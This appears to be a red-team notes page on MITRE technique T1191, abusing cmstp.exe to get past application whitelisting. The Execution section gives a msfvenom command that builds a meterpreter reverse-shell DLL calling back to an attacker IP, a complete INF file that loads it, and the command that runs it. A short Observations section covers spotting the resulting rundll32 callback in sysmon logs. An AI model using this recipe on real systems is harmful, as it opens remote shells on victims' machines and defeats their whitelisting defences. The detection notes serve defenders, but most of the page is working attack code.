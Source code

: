 ```yaml
---
description: CMSTP code execution - bypass application whitelisting.
---
```


# T1191: CMSTP

## Execution

Generating the a reverse shell payload as a DLL:

{% code title="evil.dll" %}
```csharp
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.0.0.5 LPORT=443 -f dll > /root/tools/mitre/cmstp/evil.dll
```
{% endcode %}

Creating a file that will be loaded by CSMTP.exe binary that will in turn load our evil.dll:

{% code title="f.inf" %}
```csharp
[version]
Signature=$chicago$
AdvancedINF=2.5

[DefaultInstall_SingleUser]
RegisterOCXs=RegisterOCXSection

[RegisterOCXSection]
C:\experiments\cmstp\evil.dll

[Strings]
AppAct = "SOFTWARE\Microsoft\Connection Manager"
ServiceName="mantvydas"
ShortSvcName="mantvydas"
```
{% endcode %}

Invoking the payload:

```csharp
PS C:\experiments\cmstp> cmstp.exe /s .\f.inf
```

## Observations

Rundll32 is spawned which then establishes the connection back to the attacker:

![](../../.gitbook/assets/cmstp-rundll32.png)

A very privitive way of hunting for suspicious instances of rundll32 initiating connections would be skimming through the sysmon logs and looking for network connections being established by rundll32 immediately/soon after it had been spawned by cmstp.

Note how the connection was established one second after the process creation. This behaviour depends on what the payload is supposed to do, but if the payload is a reverse shell, it usually attempts connecting back immediately upon execution, which is exactly our case:

![](../../.gitbook/assets/cmstp-kibana-1%20%281%29.png)

## References

{% embed url="https://attack.mitre.org/wiki/Technique/T1191" caption="" %}

{% embed url="https://pentestlab.blog/2018/05/10/applocker-bypass-cmstp/" caption="" %}

